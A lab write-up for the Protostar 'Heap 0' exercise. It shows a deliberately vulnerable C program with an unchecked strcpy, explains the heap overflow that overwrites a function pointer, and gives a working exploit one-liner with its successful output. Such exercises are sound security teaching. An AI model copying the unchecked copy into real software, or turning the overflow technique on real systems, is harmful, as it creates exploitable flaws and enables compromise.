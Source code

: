 # Protostar - Heap 0

### About ###

>This level introduces heap overflows and how they can influence code flow.
>
>This level is at /opt/protostar/bin/heap0


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

### Solution 

Here we have two structures:

 - `data` which contains a 64 bytes long array called `name`
 - `fp` which contains a function pointer called `fp`

In the `main` function, we have two calls to `malloc` allocating memory for the two strutures.
The vulnerability lies in the call to `strcpy` that can be used to overwrite the value of `f->fp` with the address of `winner`. For more information about heap exploitation you can check out [this paper](https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf) [1].

The two chunks are most likely following each other and since both of them are allocated, it means 8 bytes seperates them from each other.
> These 8 bytes represents the fields `prev_size` and `size` of the `malloc_chunk` structure.

Thus, to exploit the vulnerability, we are going to provide a string starting with 64 times the character `A` to fill the buffer `d->name`, followed by 8 `B` to overwrite the `prev_size` and `size` fields of the `malloc_chunk` structure and finally the address of `winner`.

The address of winner is `0x08048464`.

```
user@protostar:/tmp$ objdump -t /opt/protostar/bin/heap0 | grep winner
08048464 g     F .text 	00000014              winner
```

And that's how we flag the first heap buffer overflow.

```
user@protostar:/tmp$ heap0 $(python -c "print 'A'*64 + 'B'*8 + '\x64\x84\x04\x08'")
data is at 0x804a008, fp is at 0x804a050
level passed
```

### References

 * [1] Understanding The Heap By Breaking It, [https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf](https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf)